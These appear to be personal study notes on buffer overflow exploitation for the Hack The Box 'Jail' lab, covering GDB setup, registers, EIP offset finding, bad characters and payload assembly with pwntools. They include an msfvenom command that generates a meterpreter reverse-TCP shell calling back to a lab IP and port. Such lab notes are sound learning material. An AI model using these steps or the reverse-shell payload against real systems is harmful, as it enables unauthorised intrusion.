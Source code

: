 
# Buffer Overflow Notes
+ jail example included in "Example Code"
  + helpful link for performing it: https://reboare.github.io/htb/htb-jail.html
  + another more helpful link: https://www.hackingarticles.in/hack-the-box-challenge-jail-walkthrough/

## GDB Commands
+ enter GDB
+ $> gdb [binary file]
+
+ The below commands make gdb follow the forked processes in the program
+ $> set follow-fork-mode child
+ $> set detach-on-fork off
+
+ to view the registers
+ $> i r
+

## Registers
+ EBP: points to the base of the stack, this is your reference
+ EIP: points to the address of the next instruction to read
  + to get the EIP, send a string of unique characters [look at gdb command for this]
  + once you see a certain group of characters inside the EIP you can search for the characters in the original string [once again, look at gdb command for this]
+ ESP: points to where you are now on the stack
  + you can use a debugger

## Common Problems
+ some strings will make the exploit fail.  To solve this, you send a string with all characters.  You slowly remove characters until you have a good string.  
+ shell code cannot contain bad characters
+ remember there is big and little endien, this can make things difficult

## Generating an attack in python
+ first you need to create a seg fault by generating a pattern with the python code, then seeing the registers overwritten
  + this can also help determine endianness.  Little endian is where the values you see overwritten are reverse.  So if you overwrite the register with input string "abcd", then the hex value found after the program crashes will equal "dcba"
+ you'll take the value found in the register you want to overwrite (probably EIP), and search for it in the string pattern created earlier.  The one that caused the program to crash.  From this, you'll get an offset number
+ NOTE: an example of this is in the Jail example, it has nice comments, and should be used as an example
+ Libraries:
  + from pwn import *
  + import struct
+ Important pieces:
  + the offset: this is the number you got from the pattern
    + offset = 'A' * [your number]
  + the shellcode: you'll need to generate this
    + you'll have to find some code that works for the system you're exploiting.
    + $> msfvenom -l payloads | grep linux 
    + then you'll have to generate the payload specific to you're ip and port
    + $> msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.14.22 LPORT=4444 -f py
  + the value you want to write into the register
    + this is a little tricky, you want this value to point to where the shell code will be written to
    + in the case of jail, we are given the address we want to write into the register because the program prints out the userpass address when run in debug mode






